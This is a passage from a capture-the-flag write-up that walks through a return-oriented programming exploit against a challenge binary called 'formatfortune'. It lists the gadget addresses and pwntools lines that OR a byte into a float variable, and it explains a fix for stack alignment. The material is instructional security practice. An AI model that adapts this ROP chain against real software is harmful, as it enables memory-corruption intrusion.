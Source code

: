 So all I need to do is call ropjump twice (set to 2) and then decrement that buffer by one (int) to get a 1.9999 something float. That sounds easy, let's just look for the right gadgets...  
.  
.  
.
.
right. not easy. There aren't any gadgets performing (inc or dec)s on xmm (float) registers in a way that's convenient to use here. I'm not going to describe my whole convoluted though process here, but after many hours of iterations and trial and error, I ended up with the following:

Using `readelf -s`, we know that jumps is stored at 0x40408c.

```py
ls = [  
	0x00000000004013aa, # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;    
	0x40408c - 0x5d, # rbx = jumps # + 3 might not be, todo, find small byte  
	# no +3  
	0,0,0,0,0, # rbp, r12, r13, r14, r15  
	
	0x00000000004013b3, 0, # single pop for stack alignment  
	0x00000000004013b3, 0, # single pop for stack alignment  
	
	0x00000000004013a9, # or byte ptr [rbx + 0x5d], bl; pop r12; pop r13; pop r14; pop r15; ret;    
	0,0,0,0, # r12,13,14,15  
	
	0x00000000004011d6+4 -4, #b function  
]
```

The important part here is

```asm
pop rbx
0x40408c - 0x5d
or byte ptr [rbx + 0x5d], bl
```

The register `bl` in x86_64, is the lowest 8 bits of `rbx`. So here, it's set to 0x8c.
Basically, this leads to `jumps = jumps | 0x8c`. Since the lowest bits of `jumps` are 0 (remember the value of jumps is 0x3f800000), this is setting it to 0x3f80008c. That's 1.00001669 (nice), and satisfies our between 1 and 2 constraint.

I send this using

```
p += b''.join([p64(l) for l in ls])  
   # good luck pwning :)  
r.sendline(p)
```

I then ran into a segfault in the middle of printf on xmm0, and realized it's the well known stack alignment error where you just need to add a few `nop` gadgets to align the stack so printf is executed with a stack pointer that is a multiple of 16.
Just one  `nop; ret` gadget did it here.


[karmanyaahm@karmanyaahsArch]: ~/CTF/bca22/pwn/formatfortune>$
